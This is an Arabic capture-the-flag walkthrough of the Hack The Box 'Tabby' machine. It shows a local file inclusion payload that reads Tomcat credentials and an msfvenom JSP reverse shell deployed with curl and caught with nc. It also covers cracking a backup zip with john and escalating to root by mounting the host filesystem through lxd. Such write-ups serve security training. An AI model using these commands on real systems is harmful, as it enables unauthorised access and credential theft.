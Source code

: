 Created by fasto

My profile : https://www.hackthebox.eu/home/users/profile/

## Sammmry :

```
linuxشغالة على easy machineعبارة عن هي Tabby
وبعد ذلك نرفع شال tomcatتمكننا من سحب كلمة سر lfi بالفحص المبدئي نجد
الذي user نقوم بكسره ثم نستخدم كلمة السر للحصول على zip fileونبحث لنجد
ootللحصول على alpine-builderنستخدم admو lxd بدوره ينتمي الى
```

- Sammmry :
- 1 enumeration
   - 1.1 Nmap
   - 1.2 Port
- 2 lfi
   - 2.1 shell
   - 2.2 Backup.zip
   - 2.3 zip crack
   - 2.4 User.txt
- 3 privilege escalation


## 1 enumeration

### 1.1 Nmap

```
nmap نبدا بفحص البورتات باستخدام
```

![Desktop View](/img/tabby/1.png)

#### نجد بورت 8080 و 80 مفتوحين  

80 : httpd

8080 :tomcat


### 1.2 Port

```
codee source اثناء تصفح بورت 80 نجد دومين في 
```
![Desktop View](/img/tabby/2.png)

```
عند فتح /etc/hostsفي domain نقوم باضافة
LFIوفحصه نجد انه مصاب بثغرة url
```
![Desktop View](/img/tabby/3.png)

```
http://10.10.10.194:8080 بعد فتح
/usr/shareتحت tomcat نكتشف ان
```
[http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html](http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html)

```
: ب password نسحب
http://10.10.10.194/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-
users.xml
```

## 2 lfi

![Desktop View](/img/tabby/4.png)
### 2.1 shell

#### : حصلنا على كلمة المرور نقوم ب الدخول الى السيرفر

```
shellنتبع الشرح التالي لرفع
https://gist.github.com/pete911/
.warبصيغة msfvenom ب shell نقوم بانشاء
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.
LPORT=5555 -f war > shell.war

![Desktop View](/img/tabby/5.png)

```
الخاص بنا shell نرفع
```

```
curl --user 'tomcat':'$3cureP4s5w0rd123!' --upload-file shell.war
'http://10.10.10.194:8080/manager/text/deploy?path=/ts'
https://phantominfosec.wordpress.com/2020/07/08/htb-tabby-
walkthrough/
```



```
nc –lnvp 5555 نشغل
shell ثم نتصفح
```
[http://10.10.10.194:8080/ts](http://10.10.10.194:8080/ts)


![Desktop View](/img/tabby/7.png)
#### الان نحصل على اتصال
![Desktop View](/img/tabby/8.png)
### 2.2 Backup.zip

####  /var/www/html/files بعد البحث داخل السيرفر نجد في مسار    


ملف

16162020_backup.zip

```
نقوم بنقله الى جهازنا
ثم فك التشفير base64 قمت بتشفيره ب
```
Base 64 –w0 16162020_backup.zip


![Desktop View](/img/tabby/9.png)

base64 –d encoded >1.zip

### 2.3 zip crack

```
نجد انه محمي بكلمة سر unzipعند محاولة فك
```

![Desktop View](/img/tabby/11.png)

```
johnنقوم بكسرها باستخدام
```
zip2john 1.zip > out.txt
john out.txt -wordlist=rockyou.txt

```
user ashنقوم بتجريبها على admin@itنجد كلمة السر
```

![Desktop View](/img/tabby/12.png)


![Desktop View](/img/tabby/13.png)
### 2.4 User.txt

```
ash تمكنا بالدخول ب
```
![Desktop View](/img/tabby/14.png)
## 3 privilege escalation

```
عند البحث في lxdو adm ينتمي الى ash نجد ان id عند كتابة
privilege escalationجوجل نجد مقال يتحدث عن
https://www.hackingarticles.in/lxd-privilege-
escalation
```
```
alpine-builderنحمل
```
```
https://github.com/saghul/lxd-
alpine-builder.git
```
![Desktop View](/img/tabby/15.png)

```
lxc image import ./alpine-v3.12-x86_64-20201030_1631.tar.gz --alias fasto
lxc image list
```
![Desktop View](/img/tabby/r1.png)

lxd init


![Desktop View](/img/tabby/r2.png)
```
ash@tabby:~$ lxc init fasto groot -c security.privileged=true
ash@tabby:~$ lxc config device add groot mydevice disk
source=/ path=/mnt/root recursive=true
```

```
ash@tabby:~$ lxc start groot
ash@tabby:~$ lxc exec groot /bin/sh
```


![Desktop View](/img/tabby/r3.png)
```
/mnt/root/root نذهب الى root حصلنا على
flagنجد
```
![Desktop View](/img/tabby/r4.png)

